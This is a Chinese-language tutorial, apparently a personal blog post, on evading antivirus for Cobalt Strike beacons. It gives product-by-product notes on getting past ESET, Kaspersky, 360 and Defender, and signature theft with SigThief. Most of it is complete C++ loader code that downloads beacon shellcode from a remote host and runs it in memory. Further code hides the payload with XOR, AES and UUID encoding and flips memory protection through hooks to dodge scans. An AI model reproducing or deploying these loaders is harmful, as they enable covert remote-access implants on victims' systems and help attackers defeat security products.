# 前言
这是这段时间入门免杀的一些尝试，集合了我觉得目前还算比较有用的一些方法，也算可供师傅们入门免杀的时候的一些思路，如有不当之处，望指正。

## 0.零散知识
### 0x00 添加图标：
尝试了几种大众方法，感觉还是这篇文章的方法好用

[https://www.sqlsec.com/2020/10/csexe.html](https://www.sqlsec.com/2020/10/csexe.html)

### 0x01 添加签名：
sigthief下载地址：https://github.com/secretsquirrel/SigThief  
`python sigthief.py -i "C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe" -t C:\Users\xx\Desktop\Project1.exe -o 1.exe`

### 0x02 降低熵值
熵值也是一些杀软查杀的条件之一，把shellcode和loader分开能有效降低熵值

### 0x03 免杀入门杂谈文章推荐
+ https://xz.aliyun.com/t/13332?time__1311=mqmxnDBG0QiQPGNDQ0KBKg77x9YreDcjYoD&alichlgref=https%3A%2F%2Fxz.aliyun.com%2F%3Fpage%3D3
+ https://myzxcg.com/archives/
+ 浅析杀软系列：https://0range-x.github.io/2022/03/31/%E6%B5%85%E6%9E%90%E6%9D%80%E8%BD%AF/
+ 闲谈免杀：https://cloud.tencent.com/developer/article/2368173
+ 加载器总结：https://www.cnblogs.com/henry666/p/17429771.html
+ https://www.cnblogs.com/fdxsec/p/17827348.html
+ 回调函数加载器总结：https://www.freebuf.com/articles/web/269158.html
+ 免杀技术汇总：https://blog.csdn.net/jentle8/article/details/126771022

### 0x05 隐藏窗口
360会检测这个，例如远程加载shellcode360不会杀，但是加上隐藏窗口会杀，但是我们必须隐藏窗口，所以只能另外修改其他特征，例如隐藏窗口加上远程加载加上异常处理就不会杀  
1.`ShowWindow(GetConsoleWindow(), SW_HIDE);`  
2.`#pragma comment(linker,"/subsystem:\"windows\" /entry:\"mainCRTStartup\"")`  
3.我们将主函数改成WinMain，几个参数意义如下：

+ hInstance：当前实例的句柄。
+ hPrevInstance：先前实例的句柄，在现代的Windows系统中这个参数总是NULL。
+ lpCmdLine：命令行参数，是一个指向以空字符结尾的字符串的指针。
+ nCmdShow：指定窗口应该以何种形式显示。

```plain
#include <Windows.h>
int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow)
{
    // ... 其他初始化工作 ...

  // 创建窗口并显示
  HWND hWnd = CreateWindow(/* 创建窗口的参数 */);
  ShowWindow(hWnd, SW_HIDE);  // 将窗口隐藏起来
    return 0;
}
```

### 0x06 nt、zw等底层函数查询网站
http://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FMemory%20Management%2FVirtual%20Memory%2FNtProtectVirtualMemory.html

## 1.杀软总结
参考了橘神的文章和自己的尝试，橘神的博客就是上面浅析杀软系列那一篇。

### 1x0 eset
+ 上线方面

loader使用shellcode分离的方式

+ 操作方面

不是企业版没碰到有拦截一些常规操作，eset是一个对行为操作极其敏感的杀软。所以在对抗行为检测类杀软的时候，cs尽量使用模块化插件的方式去获取cmd或者pw回显信息。

### 1x1 卡巴斯基
内存扫描能力很强，默认的cs beacon会被检测

+ 上线方面

修改cs的profile，卡巴接触不多，我也没办法多说什么

+ 操作方面

常规操作是不拦截的

### 1x2 火绒
+ 上线方面

没啥注意，火绒有本地沙箱内置了一个本地的虚拟化环境，但是感觉火绒沙箱稍微好过

+ 操作方面

不要去做一些乱搞的配置，很容易绕过，不要随意使用提权工具  
心跳间隔不要过短

### 1x3 360
+ 360核心防护

开启了核晶防护之后，需要操作是受限的，大部分的CMD命令是无法使用的，判断是否开启核晶防护，上传EXE执行提升拒绝访问，就算上线了，becaon下运行cmd命令提示拒绝访问

+ 上线方面

如果有核晶防护，DLL白加黑解决上线问题

+ 操作方面

即便有system权限也没办法实现CMD命令注入，就上传我们自己写好的代码进行注入，或者用bof插件进行相关的替代

### 1x4 windows defender
Defender两个核心: AMSI、ETW。

+ 上线方面

沙箱检测动态查杀有点强，感觉shellcode传到内存一解密就杀，火绒360还不会  
针对cs,不要使用stager shellcode ，使用stage shellcode 上线是要立刻被干掉的，用stageless的shellcode。

+ 操作方面

如果出发恶意行为，如提权之类的，会关联到loader程序，上线后可以注入到另外的进程去操作，  
使用cs内置的execute-assembly 可能会导致beacon掉线，原因：C#的程序本身是不免杀的，会经过ASMI的扫描

### 1x5 其他杀软
+ sangfor edr： 静态查杀很强，不会查杀父进程，过了静态就可以乱来
+ 麦咖啡： 麦咖啡静态查杀也很强，没有行为查杀
+ 阿里安骑士：静态一般，但拦截高危cmd操作
+ 趋势科技：监控恶意服务创建，行为检测基本无
+ G01：静态上传不管是exe还是dll都会被杀，有黑名单机制

## 2.静态绕过
## 2x0 远程分段加载shellcode
我最经常使用的一种静态绕过的方法

### 效果：
能过火绒360动静态，但是一些添加用户的命令依然会拦截  
加上隐藏窗口360免不了，火绒还是可以





```cpp
#include <winsock2.h>
#include <ws2tcpip.h>
#include <Windows.h>
#include <stdio.h>

#pragma comment(lib, "ntdll")

#pragma comment (lib, "Ws2_32.lib")
#pragma comment (lib, "Mswsock.lib")
#pragma comment (lib, "AdvApi32.lib")


#define NtCurrentProcess()     ((HANDLE)-1)
#define DEFAULT_BUFLEN 4096

#ifndef NT_SUCCESS
#define NT_SUCCESS(Status) (((NTSTATUS)(Status)) >= 0)
#endif

LPVOID shellcode_addr;


DWORD getShellcode_Run(char* host, char* port, char* resource,OUT char* recvbuf_ptr) {

    DWORD oldp = 0;
    BOOL returnValue;

    size_t origsize = strlen(host) + 1;
    const size_t newsize = 100;
    size_t convertedChars = 0;
    wchar_t Whost[newsize];
    mbstowcs_s(&convertedChars, Whost, origsize, host, _TRUNCATE);


    WSADATA wsaData;
    SOCKET ConnectSocket = INVALID_SOCKET;
    struct addrinfo* result = NULL,
    * ptr = NULL,
    hints;
    char sendbuf[MAX_PATH] = "";
    lstrcatA(sendbuf, "GET /");
    lstrcatA(sendbuf, resource);

    char recvbuf[DEFAULT_BUFLEN];
    memset(recvbuf, 0, DEFAULT_BUFLEN);
    int iResult;
    int recvbuflen = DEFAULT_BUFLEN;


    // Initialize Winsock
    iResult = WSAStartup(MAKEWORD(2, 2), &wsaData);
    if (iResult != 0) {
        printf("WSAStartup failed with error: %d\n", iResult);
        return 0;
    }

    ZeroMemory(&hints, sizeof(hints));
    hints.ai_family = PF_INET;
    hints.ai_socktype = SOCK_STREAM;
    hints.ai_protocol = IPPROTO_TCP;

    // Resolve the server address and port
    iResult = getaddrinfo(host, port, &hints, &result);
    if (iResult != 0) {
        printf("getaddrinfo failed with error: %d\n", iResult);
        WSACleanup();
        return 0;
    }

    // Attempt to connect to an address until one succeeds
    for (ptr = result; ptr != NULL; ptr = ptr->ai_next) {

        // Create a SOCKET for connecting to server
        ConnectSocket = socket(ptr->ai_family, ptr->ai_socktype,
            ptr->ai_protocol);
        if (ConnectSocket == INVALID_SOCKET) {
            printf("socket failed with error: %ld\n", WSAGetLastError());
            WSACleanup();
            return 0;
        }

        // Connect to server.
        printf("[+] Connect to %s:%s", host, port);
        iResult = connect(ConnectSocket, ptr->ai_addr, (int)ptr->ai_addrlen);
        if (iResult == SOCKET_ERROR) {
            closesocket(ConnectSocket);
            ConnectSocket = INVALID_SOCKET;
            continue;
        }
        break;
    }

    freeaddrinfo(result);

    if (ConnectSocket == INVALID_SOCKET) {
        printf("Unable to connect to server!\n");
        WSACleanup();
        return 0;
    }

    // Send an initial buffer
    iResult = send(ConnectSocket, sendbuf, (int)strlen(sendbuf), 0);
    if (iResult == SOCKET_ERROR) {
        printf("send failed with error: %d\n", WSAGetLastError());
        closesocket(ConnectSocket);
        WSACleanup();
        return 0;
    }

    printf("\n[+] Sent %ld Bytes\n", iResult);

    // shutdown the connection since no more data will be sent
    iResult = shutdown(ConnectSocket, SD_SEND);
    if (iResult == SOCKET_ERROR) {
        printf("shutdown failed with error: %d\n", WSAGetLastError());
        closesocket(ConnectSocket);
        WSACleanup();
        return 0;
    }


    memset(recvbuf_ptr,0,400000);
    DWORD total_received = 0;
    // Receive until the peer closes the connection
    do {

        iResult = recv(ConnectSocket, (char*)recvbuf, recvbuflen, 0);
        if (iResult > 0)
        {
            printf("[+] Received %d Bytes\n", iResult);
            memcpy(recvbuf_ptr, recvbuf, iResult);
            recvbuf_ptr += iResult; // 将指针移动到接收到的数据的末尾
            total_received += iResult; // 更新接收到的总字节数
            printf("[+] Received total %d Bytes\n", total_received);
        }

        else if (iResult == 0)
            printf("[+] Connection closed\n");
        else
            printf("recv failed with error: %d\n", WSAGetLastError());


        //RunShellcode(recvbuf, recvbuflen);

    } while (iResult > 0);


    // cleanup
    closesocket(ConnectSocket);
    WSACleanup();

    return total_received;
}

int main(int argc, char** argv) {

    // Validate the parameters
   /* if (argc != 4) {
        printf("[+] Usage: %s <RemoteIP> <RemotePort> <Resource>\n", argv[0]);
        return 1;
    }*/

    char* recvbuf_ptr = (char*)malloc(400000);
    char* ip = "";
    char* RemotePort = "5003";
    char* Resource = "beacon64.bin";

    //getShellcode_Run(argv[1], argv[2], argv[3]);
   int recvbuf_size = getShellcode_Run(ip, RemotePort, Resource, recvbuf_ptr);

   shellcode_addr = VirtualAlloc(NULL, recvbuf_size, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
   memcpy(shellcode_addr, recvbuf_ptr, recvbuf_size);
   DWORD Oldprotect = 0;
   VirtualProtect(shellcode_addr, recvbuf_size, PAGE_EXECUTE_READWRITE, &Oldprotect);

   ((void(*)())shellcode_addr)();


    return 0;

}
```

## 2x1 混淆加密
混淆加密是最基础的免杀手段之一，也是目前对静态查杀使用较多的手段

### 2x1x0.异或加密
#### 代码实现
异或加密的key设置非纯数字可能效果好一点点  
下面代码是读取bin文件或者shellcode文件后进行异或加解密的代码，加解密代码是一样的

```cpp
#include <iostream>
#include<Windows.h>

size_t GetSize(char* szFilePath)
{
    size_t size;
    FILE* f = fopen(szFilePath, "rb");
    fseek(f, 0, SEEK_END);
    size = ftell(f);
    rewind(f);
    fclose(f);
    return size;
}
char* ReadBinaryFile(char* szFilePath, size_t* size)
{
    char* p = NULL;
    FILE* f = NULL;
    size_t res = 0;
    *size = GetSize(szFilePath);
    if (*size == 0) return NULL;
    f = fopen(szFilePath, "rb");
    if (f == NULL)
    {
        printf("Binary file does not exists!\n");
        return 0;
    }
    p = new char[*size];
    // Read file
    rewind(f);
    res = fread(p, sizeof(unsigned char), *size, f);
    fclose(f);
    if (res == 0)
    {
        delete[] p;
        return NULL;
    }
    return p;
}
void XORcrypt(char str2xor[], size_t len, int key) {
    int i; for (i = 0; i < len; i++) {
        str2xor[i] = (BYTE)str2xor[i] ^ key;
    }
}

int main()
{
    char* BinData = NULL;
    size_t size = 0;
    int key = 5 + 5;

    char* szFilePath = "E:\\bypassav\\beacon64xor.bin";
    BinData = ReadBinaryFile(szFilePath, &size);

    XORcrypt(BinData, size, key);

    return 0;
}
```

#### 手动异或加密
在010Editor工具可以





箭头处就是key，解密的时候的key也是这个

### 2x1x1.uuid加密
在下文的内存加解密我会用到uuid的内存中的加解密的示例  
加密工具下载地址：[https://github.com/Haunted-Banshee/Shellcode-Hastur/](https://github.com/Haunted-Banshee/Shellcode-Hastur/)  
解密代码

```cpp
int main()
{
    HANDLE hc = HeapCreate(HEAP_CREATE_ENABLE_EXECUTE, 0, 0);//创建堆，并标记为可执行
    void* ha = HeapAlloc(hc, 0, sizeof(uuids)*16);//为堆申请空间
    DWORD_PTR hptr = (DWORD_PTR)ha;
    int elems = sizeof(uuids) / sizeof(uuids[0]);

    //uuid转换成string
    for (int i = 0; i < elems; i++) {
        RPC_STATUS status = UuidFromStringA((RPC_CSTR)uuids[i], (UUID*)hptr);
        if (status != RPC_S_OK) {
            CloseHandle(ha);
            return -1;
        }
        hptr += 16;
    }
    EnumSystemLocalesA((LOCALE_ENUMPROCA)ha, 0);//回调函数
    CloseHandle(ha);
    return 0;
}
```

### 2x1x2.ase加密
参考文章：[https://www.cnblogs.com/henry666/p/17429382.html](https://www.cnblogs.com/henry666/p/17429382.html)

#### 方法一：安装openssl库（失败）
安装完openssl库后[https://slproweb.com/products/Win32OpenSSL.html](https://slproweb.com/products/Win32OpenSSL.html)  
在vs里面项目配置包含这两个路径



但是调用遇到这个坑



用到了openssl/aes.h文件。在vs中操作。  
安装：

```plain
vcpkg integrate install
vcpkg install openssl:x86-windows
vcpkg install openssl:x64-windows
```

代码：

```cpp
void aes_encrypt(const unsigned char *plaintext, int plaintext_len, const unsigned char *key, unsigned char *ciphertext) {
    AES_KEY aes_key;
    AES_set_encrypt_key(key, 128, &aes_key);//设置密钥
    int num_blocks = plaintext_len / BLOCK_SIZE + (plaintext_len % BLOCK_SIZE == 0 ? 0 : 1);//每16字节加密一次
    unsigned char block[BLOCK_SIZE];
    for (int i = 0; i < num_blocks; i++) {
        int j;
        for (j = 0; j < BLOCK_SIZE && i * BLOCK_SIZE + j < plaintext_len; j++) {
            block[j] = plaintext[i * BLOCK_SIZE + j];
        }
        for (; j < BLOCK_SIZE; j++) {
            block[j] = '\0';
        }
        AES_encrypt(block, &ciphertext[i * BLOCK_SIZE], &aes_key);
    }
}

void aes_decrypt(const unsigned char *ciphertext, int ciphertext_len, const unsigned char *key, unsigned char *plaintext) {
    AES_KEY aes_key;
    AES_set_decrypt_key(key, 128, &aes_key);
    int num_blocks = ciphertext_len / BLOCK_SIZE + (ciphertext_len % BLOCK_SIZE == 0 ? 0 : 1);
    unsigned char block[BLOCK_SIZE];
    for (int i = 0; i < num_blocks; i++) {
        AES_decrypt(&ciphertext[i * BLOCK_SIZE], block, &aes_key);
        int j;
        for (j = 0; j < BLOCK_SIZE && i * BLOCK_SIZE + j < ciphertext_len; j++) {
            plaintext[i * BLOCK_SIZE + j] = block[j];
        }
    }
}
```

反正上面方法一是失败的

#### 方法二：
[https://blog.csdn.net/m0_62466350/article/details/134735342](https://blog.csdn.net/m0_62466350/article/details/134735342)这篇博客里面找到这个ase加密库，用这个库可以加密  
调试加密代码：

```plain
#include<Windows.h>
#include <stdio.h>
#include"AES.h"

using namespace std;

#include<iostream>

size_t GetSize(char* szFilePath)
{
    size_t size;
    FILE* f = fopen(szFilePath, "rb");
    fseek(f, 0, SEEK_END);
    size = ftell(f);
    rewind(f);
    fclose(f);
    return size;
}
char* ReadBinaryFile(char* szFilePath, size_t* size)
{
    char* p = NULL;
    FILE* f = NULL;
    size_t res = 0;
    *size = GetSize(szFilePath);
    if (*size == 0) return NULL;
    f = fopen(szFilePath, "rb");
    if (f == NULL)
    {
        printf("Binary file does not exists!\n");
        return 0;
    }
    p = new char[*size];
    // Read file
    rewind(f);
    res = fread(p, sizeof(unsigned char), *size, f);
    fclose(f);
    if (res == 0)
    {
        delete[] p;
        return NULL;
    }
    return p;
}
BOOL MemeryToFile(LPVOID FileBuffer, DWORD Size)
{
    FILE* fpw = fopen("E:\\bypassav\\beacon64ase.bin", "wb");
    if (!fpw)
    {
        printf("打开文件失败\n");
        return 0;

    }
    if (fwrite(FileBuffer, 1, Size, fpw) == 0)
    {
        printf("文件写入失败");
        return 0;
    }
    fclose(fpw);
    fpw = NULL;
    printf("存盘成功");
}
void XORcrypt(unsigned char str2xor[], size_t len, int key) {
    int i; for (i = 0; i < len; i++) {
        str2xor[i] = (BYTE)str2xor[i] ^ key;
    }
}

int main(int argc, char* argv[]) {

    const unsigned char *BinData = NULL;
    size_t size = 0;
    unsigned char key[] = { 0x00, 0x01, 0x02, 0x03, 0x04, 0x05, 0x06, 0x07, 0x08, 0x09, 0x0a, 0x0b, 0x0c, 0x0d, 0x0e, 0x0f };
    unsigned char* aesData = NULL;

    char* szFilePath = "E:\\bypassav\\beacon64xor.bin";
    BinData = (const unsigned char*)ReadBinaryFile(szFilePath, &size);

    // 加密
    AES aes(AESKeyLength::AES_128);
    unsigned char* c = aes.EncryptECB(BinData, (unsigned int)size , key);
    MemeryToFile(c, size);

    char* szFilePath1 = "E:\\bypassav\\beacon64ase.bin";
    const unsigned char* TempData = (const unsigned char*)ReadBinaryFile(szFilePath1, &size);
    unsigned char* a = aes.DecryptECB(TempData, (unsigned int)size, key);

    int xorkey = 5 + 5;
    XORcrypt(a, size, xorkey);
    return 0;
}
```

结合上面异或+异常+ase加密的代码

```plain
#include <winsock2.h>
#include <ws2tcpip.h>
#include <Windows.h>
#include <stdio.h>
#include <iostream>
#include "detours.h"
#include "detver.h"
#include "AES.h"

#pragma comment(lib, "ntdll")

#pragma comment (lib, "Ws2_32.lib")
#pragma comment (lib, "Mswsock.lib")
#pragma comment (lib, "AdvApi32.lib")


#define NtCurrentProcess()     ((HANDLE)-1)
#define DEFAULT_BUFLEN 4096

#ifndef NT_SUCCESS
#define NT_SUCCESS(Status) (((NTSTATUS)(Status)) >= 0)
#endif

LPVOID shellcode_addr;

LPVOID Beacon_address;
SIZE_T Beacon_data_len;
DWORD Beacon_Memory_address_flOldProtect;
HANDLE hEvent;


BOOL Vir_FLAG = TRUE;


static LPVOID(WINAPI* OldVirtualAlloc)(LPVOID lpAddress, SIZE_T dwSize, DWORD flAllocationType, DWORD flProtect) = VirtualAlloc;
LPVOID WINAPI NewVirtualAlloc(LPVOID lpAddress, SIZE_T dwSize, DWORD flAllocationType, DWORD flProtect) {
    Beacon_data_len = dwSize;
    Beacon_address = OldVirtualAlloc(lpAddress, dwSize, flAllocationType, flProtect);
    printf("分配大小:%d", Beacon_data_len);
    printf("分配地址:%llx \n", Beacon_address);
    return Beacon_address;
}

static VOID(WINAPI* OldSleep)(DWORD dwMilliseconds) = Sleep;
void WINAPI NewSleep(DWORD dwMilliseconds)
{
    if (Vir_FLAG)
    {
        VirtualFree(shellcode_addr, 0, MEM_RELEASE);
        Vir_FLAG = false;
    }
    printf("sleep时间:%d\n", dwMilliseconds);
    SetEvent(hEvent);
    OldSleep(dwMilliseconds);
}

void Hook()
{
    DetourRestoreAfterWith(); //避免重复HOOK
    DetourTransactionBegin(); // 开始HOOK
    DetourUpdateThread(GetCurrentThread());
    DetourAttach((PVOID*)&OldVirtualAlloc, NewVirtualAlloc);
    DetourAttach((PVOID*)&OldSleep, NewSleep);
    DetourTransactionCommit(); //  提交HOOK
}

void UnHook()
{
    DetourTransactionBegin();
    DetourUpdateThread(GetCurrentThread());
    DetourDetach((PVOID*)&OldVirtualAlloc, NewVirtualAlloc);
    DetourTransactionCommit();
}

size_t GetSize(char* szFilePath)
{
    size_t size;
    FILE* f = fopen(szFilePath, "rb");
    fseek(f, 0, SEEK_END);
    size = ftell(f);
    rewind(f);
    fclose(f);
    return size;
}

unsigned char* ReadBinaryFile(char* szFilePath, size_t* size)
{
    unsigned char* p = NULL;
    FILE* f = NULL;
    size_t res = 0;
    *size = GetSize(szFilePath);
    if (*size == 0) return NULL;
    f = fopen(szFilePath, "rb");
    if (f == NULL)
    {
        printf("Binary file does not exists!\n");
        return 0;
    }
    p = new unsigned char[*size];
    // Read file
    rewind(f);
    res = fread(p, sizeof(unsigned char), *size, f);
    fclose(f);
    if (res == 0)
    {
        delete[] p;
        return NULL;
    }
    return p;
}

BOOL is_Exception(DWORD64 Exception_addr)
{
    if (Exception_addr < ((DWORD64)Beacon_address + Beacon_data_len) && Exception_addr >(DWORD64)Beacon_address)
    {
        printf("地址符合:%llx\n", Exception_addr);
        return true;
    }
    printf("地址不符合:%llx\n", Exception_addr);
    return false;
}

LONG NTAPI FirstVectExcepHandler(PEXCEPTION_POINTERS pExcepInfo)
{
    printf("FirstVectExcepHandler\n");
    printf("异常错误码:%x\n", pExcepInfo->ExceptionRecord->ExceptionCode);
    printf("线程地址:%llx\n", pExcepInfo->ContextRecord->Rip);
    if (pExcepInfo->ExceptionRecord->ExceptionCode == 0xc0000005 && is_Exception(pExcepInfo->ContextRecord->Rip))
    {
        printf("恢复Beacon内存属性\n");
        VirtualProtect(Beacon_address, Beacon_data_len, PAGE_EXECUTE_READWRITE, &Beacon_Memory_address_flOldProtect);
        return EXCEPTION_CONTINUE_EXECUTION;
    }
    return EXCEPTION_CONTINUE_SEARCH;
}

DWORD WINAPI Beacon_set_Memory_attributes(LPVOID lpParameter)
//这段代码的目的是等待事件 hEvent 被触发，然后修改 Beacon_address 指向的内存区域的保护属性，使其变为可写
{
    printf("Beacon_set_Memory_attributes启动\n");
    while (true)
    {
        WaitForSingleObject(hEvent, INFINITE);
        printf("设置Beacon内存属性不可执行\n");
        VirtualProtect(Beacon_address, Beacon_data_len, PAGE_READWRITE, &Beacon_Memory_address_flOldProtect);
        ResetEvent(hEvent);
    }
    return 0;
}


DWORD getShellcode_Run(char* host, char* port, char* resource,OUT char* recvbuf_ptr) {

    DWORD oldp = 0;
    //BOOL returnValue;

    size_t origsize = strlen(host) + 1;
    const size_t newsize = 100;
    size_t convertedChars = 0;
    wchar_t Whost[newsize];
    mbstowcs_s(&convertedChars, Whost, origsize, host, _TRUNCATE);


    WSADATA wsaData;
    SOCKET ConnectSocket = INVALID_SOCKET;
    struct addrinfo* result = NULL,
        * ptr = NULL,
        hints;
    char sendbuf[MAX_PATH] = "";
    lstrcatA(sendbuf, "GET /");
    lstrcatA(sendbuf, resource);

    char recvbuf[DEFAULT_BUFLEN];
    memset(recvbuf, 0, DEFAULT_BUFLEN);
    int iResult;
    int recvbuflen = DEFAULT_BUFLEN;


    // Initialize Winsock
    iResult = WSAStartup(MAKEWORD(2, 2), &wsaData);
    if (iResult != 0) {
        printf("WSAStartup failed with error: %d\n", iResult);
        return 0;
    }

    ZeroMemory(&hints, sizeof(hints));
    hints.ai_family = PF_INET;
    hints.ai_socktype = SOCK_STREAM;
    hints.ai_protocol = IPPROTO_TCP;

    // Resolve the server address and port
    iResult = getaddrinfo(host, port, &hints, &result);
    if (iResult != 0) {
        printf("getaddrinfo failed with error: %d\n", iResult);
        WSACleanup();
        return 0;
    }

    // Attempt to connect to an address until one succeeds
    for (ptr = result; ptr != NULL; ptr = ptr->ai_next) {

        // Create a SOCKET for connecting to server
        ConnectSocket = socket(ptr->ai_family, ptr->ai_socktype,
            ptr->ai_protocol);
        if (ConnectSocket == INVALID_SOCKET) {
            printf("socket failed with error: %ld\n", WSAGetLastError());
            WSACleanup();
            return 0;
        }

        // Connect to server.
        printf("[+] Connect to %s:%s", host, port);
        iResult = connect(ConnectSocket, ptr->ai_addr, (int)ptr->ai_addrlen);
        if (iResult == SOCKET_ERROR) {
            closesocket(ConnectSocket);
            ConnectSocket = INVALID_SOCKET;
            continue;
        }
        break;
    }

    freeaddrinfo(result);

    if (ConnectSocket == INVALID_SOCKET) {
        printf("Unable to connect to server!\n");
        WSACleanup();
        return 0;
    }

    // Send an initial buffer
    iResult = send(ConnectSocket, sendbuf, (int)strlen(sendbuf), 0);
    if (iResult == SOCKET_ERROR) {
        printf("send failed with error: %d\n", WSAGetLastError());
        closesocket(ConnectSocket);
        WSACleanup();
        return 0;
    }

    printf("\n[+] Sent %ld Bytes\n", iResult);

    // shutdown the connection since no more data will be sent
    iResult = shutdown(ConnectSocket, SD_SEND);
    if (iResult == SOCKET_ERROR) {
        printf("shutdown failed with error: %d\n", WSAGetLastError());
        closesocket(ConnectSocket);
        WSACleanup();
        return 0;
    }


    memset(recvbuf_ptr,0,400000);
    DWORD total_received = 0;
    // Receive until the peer closes the connection
    do {

        iResult = recv(ConnectSocket, (char*)recvbuf, recvbuflen, 0);
        if (iResult > 0)
        {
            printf("[+] Received %d Bytes\n", iResult);
            memcpy(recvbuf_ptr, recvbuf, iResult);
            recvbuf_ptr += iResult; // 将指针移动到接收到的数据的末尾
            total_received += iResult; // 更新接收到的总字节数
            printf("[+] Received total %d Bytes\n", total_received);
        }

        else if (iResult == 0)
            printf("[+] Connection closed\n");
        else
            printf("recv failed with error: %d\n", WSAGetLastError());


        //RunShellcode(recvbuf, recvbuflen);

    } while (iResult > 0);


    // cleanup
    closesocket(ConnectSocket);
    WSACleanup();

    return total_received;
}
void XORcrypt(unsigned char str2xor[], size_t len, int key) {
    int i; for (i = 0; i < len; i++) {
        str2xor[i] = (BYTE)str2xor[i] ^ key;
    }
}


int main(int argc, char** argv) {
   // const unsigned char* key1 = ;
    // Validate the parameters
   /* if (argc != 4) {
        printf("[+] Usage: %s <RemoteIP> <RemotePort> <Resource>\n", argv[0]);
        return 1;
    }*/

    char* recvbuf_ptr = (char*)malloc(400000);
    char* ip = "";
    char* RemotePort = "5003";
    char* Resource = "beacon64ase.bin";

    hEvent = CreateEvent(NULL, TRUE, false, NULL);

    PVOID temp = AddVectoredExceptionHandler(1, &FirstVectExcepHandler);
    if (temp == NULL)
    {
        printf("AddVectoredExceptionHandler调用失败");
        getchar();
        return 0;
    }
    Hook();
    HANDLE hThread1 = CreateThread(NULL, 0, Beacon_set_Memory_attributes, NULL, 0, NULL);
    CloseHandle(hThread1);

    //getShellcode_Run(argv[1], argv[2], argv[3]);
   int recvbuf_size = getShellcode_Run(ip, RemotePort, Resource, recvbuf_ptr);

   //aes解密

   AES aes(AESKeyLength::AES_128); 
   unsigned char key[] = { 0x00, 0x01, 0x02, 0x03, 0x04, 0x05, 0x06, 0x07, 0x08, 0x09, 0x0a, 0x0b, 0x0c, 0x0d, 0x0e, 0x0f };

   unsigned char* a = aes.DecryptECB((const unsigned char*)recvbuf_ptr, (unsigned int)recvbuf_size, key);

   //xor解密
   int xorkey = 5 + 5;
   XORcrypt(a, recvbuf_size,xorkey);

   shellcode_addr = VirtualAlloc(NULL, recvbuf_size, MEM_COMMIT, PAGE_READWRITE);
   memcpy(shellcode_addr, a, recvbuf_size);
   VirtualProtect(shellcode_addr, recvbuf_size, PAGE_EXECUTE_READWRITE, &Beacon_Memory_address_flOldProtect);

   ((void(*)())shellcode_addr)();


    return 0;

}
```

#### 踩了大坑：
1、key的赋值，本地测试代码直接强转是可以的，到了木马程序就不行了，`const unsigned char *key = (const unsigned char *)"132abc"`  
2、在调用ase库加密函数的时候单步走到那个函数会莫名其妙运行结束堵塞，但是直接运行过去是没问题的!  


### 2x1x3.rc4加密
适合短的shellcode，bin文件太大了，这里我暂时还没用上，提供一篇好文章  
[https://myzxcg.com/2022/01/%E5%AD%97%E7%AC%A6%E4%B8%B2%E5%8A%A0%E5%AF%86%E4%B8%8EShellcode-%E9%9A%90%E8%97%8F/#rc4-%E5%8A%A0%E8%A7%A3%E5%AF%86%E5%AD%97%E7%AC%A6%E4%B8%B2](https://myzxcg.com/2022/01/%E5%AD%97%E7%AC%A6%E4%B8%B2%E5%8A%A0%E5%AF%86%E4%B8%8EShellcode-%E9%9A%90%E8%97%8F/#rc4-%E5%8A%A0%E8%A7%A3%E5%AF%86%E5%AD%97%E7%AC%A6%E4%B8%B2)

## 2x2 敏感winapi替换
相关文章：提供了很多敏感winapi的冷门平替版本  
[http://ropgadget.com/posts/abusing_win_functions.html](http://ropgadget.com/posts/abusing_win_functions.html)

| AddClusterNode | BluetoothRegisterForAuthentication | CMTranslateRGBsExt |
| --- | --- | --- |
| allWindowProcA | CallWindowProcW | CreateCluster |
| CreateDialogIndirectParamA | CreateDialogIndirectParamW | CreateDialogParamA |
| CreateDialogParamW | CreatePrintAsyncNotifyChannel | CreateTimerQueueTimer |
| DavRegisterAuthCallback | DbgHelpCreateUserDump | DbgHelpCreateUserDumpW |
| DdeInitializeA | DdeInitializeW | DestroyCluster |
| DialogBoxIndirectParamA | DialogBoxIndirectParamW | DialogBoxParamA |
| DialogBoxParamW | DirectSoundCaptureEnumerateA | DirectSoundCaptureEnumerateW |
| DirectSoundEnumerateA | DirectSoundEnumerateW | DrawStateA |
| DrawStateW | EnumCalendarInfoA | EnumCalendarInfoW |
| EnumChildWindows | EnumDateFormatsA | EnumDateFormatsW |
| EnumDesktopWindows | EnumDesktopsA | EnumDesktopsW |
| EnumEnhMetaFile | EnumFontFamiliesA | EnumFontFamiliesExA |
| EnumFontFamiliesExW | EnumFontFamiliesW | EnumFontsA |
| EnumFontsW | EnumICMProfilesA | EnumICMProfilesW |
| EnumLanguageGroupLocalesA | EnumLanguageGroupLocalesW | EnumMetaFile |
| EnumObjects | EnumPropsExA | EnumPropsExW |
| EnumPwrSchemes | EnumResourceLanguagesA | EnumResourceLanguagesExA |
| EnumResourceLanguagesExW | EnumResourceLanguagesW | EnumResourceNamesA |
| EnumResourceNamesExA | EnumResourceNamesExW | EnumResourceNamesW |
| EnumResourceTypesA | EnumResourceTypesW | EnumResourceTypesExA |
| EnumResourceTypesExW | EnumResourceTypesW | EnumSystemCodePagesA |
| EnumSystemCodePagesW | EnumSystemLanguageGroupsA | EnumSystemLanguageGroupsW |
| EnumSystemLocalesA | EnumSystemLocalesW | EnumThreadWindows |
| EnumTimeFormatsA | EnumTimeFormatsW | EnumUILanguagesA |
| EnumUILanguagesW | EnumWindowStationsA | EnumWindowStationsW |
| EnumWindows | EnumerateLoadedModules | EnumerateLoadedModulesEx |
| EnumerateLoadedModulesExW | EventRegister | GetApplicationRecoveryCallback |
| GrayStringA | GrayStringW | KsCreateFilterFactory |
| KsMoveIrpsOnCancelableQueue | KsStreamPointerClone | KsStreamPointerScheduleTimeout |
| LineDDA | MFBeginRegisterWorkQueueWithMMCSS | MFBeginUnregisterWorkQueueWithMMCSS |
| MFPCreateMediaPlayer | MQReceiveMessage | MQReceiveMessageByLookupId |
| NotifyIpInterfaceChange | NotifyStableUnicastIpAddressTable | NotifyTeredoPortChange |
| NotifyUnicastIpAddressChange | PerfStartProvider | PlaExtractCabinet |
| ReadEncryptedFileRaw | RegisterApplicationRecoveryCallback | RegisterForPrintAsyncNotifications |
| RegisterServiceCtrlHandlerExA | RegisterServiceCtrlHandlerExW | RegisterWaitForSingleObject |
| RegisterWaitForSingleObjectEx | SHCreateThread | SHCreateThreadWithHandle |
| SendMessageCallbackA | SendMessageCallbackW | SetTimerQueueTimer |
| SetWinEventHook | SetWindowsHookExA | SetWindowsHookExW |
